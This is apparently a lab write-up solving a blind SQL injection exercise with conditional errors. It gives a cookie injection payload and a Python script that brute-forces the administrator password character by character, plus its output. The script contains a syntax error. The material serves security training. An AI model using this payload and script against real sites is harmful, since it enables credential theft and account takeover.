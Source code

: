 ### Eleven Exercise 👆


![problem.PNG](/assets/SQLi/Twelve/problem.PNG)


#### **To do**

```
This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs an SQL query containing the value of the submitted cookie.

The results of the SQL query are not returned, and the application does not respond any differently based on whether the query returns any rows. If the SQL query causes an error, then the application returns a custom error message.

The database contains a different table called users, with columns called username and password. You need to exploit the blind SQL injection vulnerability to find out the password of the administrator user.

To solve the lab, log in as the administrator user.    
```

1. Should use a cookie to execute SQL Injection (I use BurpSuite)
![cookie.PNG](/assets/SQLi/Twelve/cookie.PNG)

* The problem informs us that we will be blind, then, if the query is wrong or accert we will receive a 500 or 200 code.


1. Query to inject with python to know the password of **administrator user**
```sql
' || (select case when substr(password, 1, 1) = 'a' then to_char(1/0) else '' end from users where username='administrator') || '
```



1. To discover the password we need to create a program in python to iterate each position:


```python
#!/usr/bin/python3

from pwn import *
import requests, time, string, signal, sys


def handler_stop(sig, frame):
        print("\n\n[!] Exiting... Bye")
        sys.exit(1)

def make_request():
    url = "<url of web page>"
    characteres = string.ascii_lowercase + string.digits
    password = ""
    bar_1 = log.progress("Brute Force")
    bar_1.status("Starting Brute Force...")
    time.sleep(1)
    bar_2 = log.progress("Password")
    
    for i in range(1,21):
        for character in characteres:
            cookie = {f"TrackingId": "<your TrackingId>' || (select case when substring(password,{i},1) = '{character}' then to_char(1/0) end from users where username='administrator') || '",
                    "session": "<your session>"
            }
            bar_1.status(cookie["TrackingId"])
            r = requests.get(url, cookies=cookie)   
            if (500 = r.status_code):
                password += character
                bar_2.status(password)
                break
#! Ctrl + C
signal.signal(signal.SIGINT, handler_stop)

if __name__ == "__main__":
    make_request()
```
* With this program we try to know the letter in each position of password length.
* In each position we try: `abcdefghijklmnopqrstuvwxyz0123456789`




**Output**
```bash
┌──(root㉿est)-[/home/kali/Desktop]
└─| python3 SQL_conditional_error.py 
[ ] Brute Force: beAgM62XEFMyuhEC'||(select case when substr(password,20,1) = 'c' then to_char(1/0) else '' end from users where username='administrator')||'
[┌] Password: 0ayv9e95nhfkfxyjiirc

```

5. Finally login with credentials:
* **username**: administrator
* **password**: [output program]

![login.txt](/assets/SQLi/Eleven/login.PNG)